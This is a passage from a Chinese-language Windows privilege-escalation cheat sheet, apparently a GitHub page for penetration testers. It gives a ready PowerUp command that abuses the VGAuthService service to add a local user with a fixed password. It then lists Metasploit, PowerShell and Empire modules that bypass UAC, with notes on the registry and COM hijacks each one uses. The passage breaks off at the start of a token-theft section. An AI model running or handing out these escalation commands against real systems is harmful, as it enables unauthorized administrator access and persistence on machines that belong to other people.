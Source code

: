 -   ServiceName：可能存在漏洞的服务
-   Path：该服务的可执行程序的路径
-   StartName：服务运行账号
-   AbuseFunction：利用方式

`执行命令，这里以VMTools为例`  
添加 test 用户

```bash
powershell.exe -exec bypass -Command "& {Import-Module C:/PowerUp.ps1;Invoke-ServiceAbuse -Name 'VGAuthService' -Username test -Password 123456}"
```

## Bypass UAC

```bash
#Msf
exploit/windows/local/ask       #弹出 UAC 确认窗口，点击后获得 system 权限

exploit/windows/local/bypassuac  #此模块将通过进程注入使用可信任发布者证书绕过 Windows UAC，它将生成关闭 UAC 标志的第二个 shell。

exploit/windows/local/bypassuac_injection #此模块将通过进程注入使用可信任的发布者证书绕过 Windows UAC。它将生成关闭 UAC 标志的第二个 shell。在普通技术中，该模块使用反射式 DLL 注入技术并只除去了 DLL payload 二进制文件，而不是三个单独的二进制文件。但是，它需要选择正确的体系架构（对于 SYSWOW64 系统也使用 x64）。如果指定 exe::custom，应在单独的进程中启动 payload 后调用 ExitProcess（）


exploit/windows/local/bypassuac_fodhelper#此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows fodhelper.exe 应用程序时调用的自定义命令来绕过 Windows 10 UAC。它将生成关闭 UAC 标志的第二个 shell。此模块修改注册表项，但在调用 payload 后将清除该项。该模块不需要 payload 的体系架构和操作系统匹配。如果指定 exe:custom，则应在单独的进程中启动 payload 后调用 ExitProcess（）。

exploit/windows/local/bypassuac_eventvwr#此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows事件查看器时调用的自定义命令来绕过Windows UAC。它将生成关闭 UAC 标志的第二个 shell。此模块修改注册表项，但在调用 payload 后将清除该项。该模块不需要 payload 的体系架构和操作系统匹配。如果指定 EXE ::Custom，则应在单独的进程中启动 payload 后调用 ExitProcess（）

exploit/windows/local/bypassuac_comhijack#此模块将通过在hkcu配置单元中创建COM处理程序注册表项来绕过Windows UAC。当加载某些较高完整性级别进程时，会引用这些注册表项，从而导致进程加载用户控制的 DLL，这些 DLL 包含导致会话权限提升的 payload。此模块修改注册表项，但在调用 payload 后将清除该项，这个模块需要 payload 的体系架构和操作系统匹配，但是当前的低权限 meterpreter 会话体系架构中可能不同。如果指定 exe:：custom，则应在单独的进程中启动 payloa 后调用 ExitProcess（）。此模块通过目标上的 cmd.exe 调用目标二进制文件，因此，如果 cmd.exe 访问受到限制，此模块将无法正常运行。

#Powershell
Invoke-PsUACme

#Empire
usemodule privesc/bypassuac
usemodule privesc/bypassuac_wscript
```

### 令牌窃取 - 可用

访问令牌 (Access Token)：表示访问控制操作主体的系统对象。  
会话令牌 (Session Token)：是交互会话中唯一的身份标识符。  
密保令牌 (Security Token)：又叫做认证令牌或硬件令牌，是一种计算机身份校验的物理设备，例如 U 盾。
